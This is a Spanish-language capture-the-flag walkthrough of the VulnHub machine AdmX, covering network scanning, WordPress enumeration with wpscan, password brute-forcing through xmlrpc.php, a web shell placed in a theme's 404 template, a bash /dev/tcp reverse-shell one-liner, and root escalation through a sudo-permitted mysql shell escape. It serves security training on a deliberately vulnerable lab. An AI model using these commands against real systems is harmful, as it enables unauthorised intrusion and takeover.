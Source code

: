 #ctf-machine #vulnhub #easy-machine #linux  [VulnhubLink](https://download.vulnhub.com/admx/AdmX_new.7z)

## Enumeración inicial
Como no conocemos la dirección IPv4 de la máquina víctima, hacemos un escaneo ARP con `arpscan` para identificarla:
![[Pasted image 20240909144339.png]]

Como vemos, la máquina objetiva es la "192.168.159.154", ya que su OUI es "00:0c" correspondiente a las máquinas que se importan en VMWare.

Lanzamos una traza ICMP con `ping` y como vemos su TTL es 64 por lo que probablemente se trate de una máquina Linux, ya que suelen tener este valor de TTL:
![[Pasted image 20240909144531.png]]

### Nmap
Hacemos un primer escaneo con `nmap` para identificar los puertos TCP abiertos:
![[Pasted image 20240909144732.png]]

Como vemos, solo hay un puerto abierto, el puerto 80. 

Hacemos un segundo escaneo para detectar la versión y servicio que corren para este puerto:
![[Pasted image 20240909144851.png]]

Como vemos, se trata de una máquina Linux Ubuntu. Y está ejecutando el servicio de Apache.

Hacemos un tercer escaneo para identificar algunos directorios web:
![[Pasted image 20240909145115.png]]

Como vemos se trate de un WordPress.


## Enumeración web
Si accedemos a la web, vemos la página por defecto de Apache:
![[Pasted image 20240909145253.png]]

Si utilizamos `gobuster` para buscar directorios, encontramos lo siguiente:
![[Pasted image 20240909150047.png]]

Como vemos aparece el directorio `/wordpress` encontrado anteriormente con `nmap` además de un directorio llamado `/tools`.

Si ejecutamos la herramienta `wpscan`, vemos que el archivo `xmlrpc.php` está activo:
```bash
wpscan --url http://192.168.159.154/wordpress/ --api-token XXXXXXXXXXXXXXXXXXXXXXXX --plugins-detection aggressive
```
![[Pasted image 20240909150644.png]]

Podemos hacer un segundo escaneo con `wpscan` para encontrar usuarios válidos y probar de hacer fuerza bruta de credenciales:
```bash
wpscan --url http://192.168.159.154/wordpress/ --api-token XXXX --enumerate u
```
![[Pasted image 20240909152655.png]]

Como vemos, hay un usuario válido por lo que podemos utilizar el archivo `xmlrpc.php` para hacer fuerza bruta de la contraseña.
![[Pasted image 20240909155117.png]]

Como vemos la contraseña es "adam14" para el usuario "admin" por lo que podemos obtener acceso al panel de administrador mediante `/wordpress/wp-login.php`:
![[Pasted image 20240909161944.png]]

Por lo que accedemos al "Theme Editor", seleccionamos el "404 template":
![[Pasted image 20240909162015.png]]

Y le añadimos el siguiente código al tema "Twenty Nineteen":
![[Pasted image 20240909162115.png]]

Por lo que lo activamos en el panel de "Themes":
![[Pasted image 20240909163430.png]]

Por lo que una vez activo, únicamente accedemos a una página no existente y utilizamos el parámetro "cmd" para ejecutar comandos.
![[Pasted image 20240909163815.png]]

Por lo que si ejecutamos el siguiente comando nos podemos entablar una *reverse shell*:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```

Siempre y cuando nos pongamos en escucha con `nc` por el puerto 443:
![[Pasted image 20240909171125.png]]

Por lo que hacemos el tratamiento de la TTY:
![[Pasted image 20240909171211.png]]![[Pasted image 20240909171241.png]]

## Escalada de privilegios
Si mostramos los usuarios disponibles vemos que solo hay 2:
![[Pasted image 20240909172115.png]]

Por lo que si intentamos migrar al usuario "wpadmin" con la contraseña que ya teníamos, obtenemos acceso:
![[Pasted image 20240909172205.png]]

Por lo que podemos visualizar la primera *flag* en `/home/wpadmin/`:
![[Pasted image 20240909172237.png]]

Si mostramos los permisos a nivel de *sudoers* del usuario "wpadmin", vemos el siguiente:
![[Pasted image 20240909172354.png]]

Por lo que si ejecutamos el comando y utilizamos la utilidad de `mysql` que permite ejecutar comandos de *shell*, obtenemos una "bash" como *root*:
![[Pasted image 20240909172951.png]]

Finalmente, accedemos al directorio `/root` y visualizamos la *flag*:
![[Pasted image 20240909173025.png]]


___
#xmlrpc #wordpress #web-enumeration #password-brute-force #abusing-sudoers 
___